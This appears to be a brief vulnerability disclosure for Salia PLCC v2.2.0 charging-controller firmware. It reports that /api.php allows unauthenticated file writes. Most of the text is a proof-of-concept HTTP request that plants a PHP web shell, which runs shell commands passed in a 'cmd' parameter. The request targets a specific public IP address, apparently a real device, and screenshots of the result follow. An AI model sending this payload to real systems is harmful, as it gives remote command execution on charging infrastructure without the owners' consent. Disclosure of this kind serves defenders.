 # Salia PLCC v2.2.0 has a Unauthorized File-Write

### Description

Salia PLCC Master/Slave v2.2.0 has an Unauthorized File-Write in the file /api.php ,anyone can upload a file to include and getshell .

### Vender

Office Link :https://www.echarge.de

- The latest fireware v2.2.0 download link

  http://salia.echarge.de/firmware/

  http://salia.echarge.de/firmware/firmware_2.2.0.image

![image-20250528104625114](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508290014428.png)

## POC

```http
POST /api.php HTTP/1.1
Host: 2.205.5.189
Content-Type: application/json
Content-Length: 120

{"salia/setrfidlist": "<?php if(isset($_GET['cmd'])) { echo shell_exec($_GET['cmd']); } ?>"}
```

![image-20250817164926501](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508171649549.png)



![image-20250817164929494](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508171649537.png)